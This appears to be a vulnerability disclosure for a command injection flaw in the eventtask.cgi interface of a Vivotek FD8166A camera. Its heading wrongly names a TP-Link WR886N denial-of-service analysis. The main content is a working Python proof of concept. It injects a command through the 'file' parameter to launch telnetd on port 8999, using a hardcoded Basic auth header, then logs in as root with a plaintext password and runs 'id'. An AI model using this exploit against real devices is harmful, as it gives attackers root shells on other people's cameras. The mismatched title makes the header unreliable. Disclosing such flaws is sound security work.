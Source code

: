 # Tplink-wr886n-v6-cloud_config-device_legality_illegal-dos-analysis

Vender：vivotek  
Firmware version: FD8166A-VVTK-0204j 
Hardware version: FD8166A  
Exploit Author: ljzjsc  
Vendor Homepage: <https://www.vivotek.com/>  
Hardware Link: <https://www.vivotek.com/fd8166a>  

## Vul detail
eventtask.cgi is a cgi interface that can be accessed in the device and can be accessed directly in the browser.
![1706496909343](./vivotek-FD8166A-eventtask-analysis.assets/1706496909343.png)

There is a command injection function in eventtask.cgi. The attacker only needs to construct the response payload to execute the response function to achieve the effect of arbitrary execution of the command.
![1706497925920](./vivotek-FD8166A-eventtask-analysis.assets/1706497925920.png)

We construct the corresponding payload to achieve rebound shell, denial of service and other attacks.

![1706500233048](./vivotek-FD8166A-eventtask-analysis.assets/1706500233048.png)

## PoC
```python
import requests
import telnetlib

url = "http://192.168.1.107/cgi-bin/admin/eventtask.cgi?method=exec&file=telnetd%20-p%208999"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Authorization": "Basic cm9vdDpsaTEwMTdydWk=",
    "Connection": "close",
    "Cookie": "webptzmode=continuous; activatedmode=digital; g_mode=1; viewsizemode=100; 4x3=false",
    "Upgrade-Insecure-Requests": "1"
}

response = requests.get(url, headers=headers)
print(response.status_code)
print(response.text)

tn = telnetlib.Telnet("192.168.1.107", 8999)
tn.read_until(b"login: ")
tn.write(b"root\n")
tn.read_until(b"Password: ")
tn.write(b"li1017rui\n")
response = tn.read_until(b"#")
tn.write(b"id\n")
response = tn.read_until(b"#")
print(response.decode('utf-8'))
```
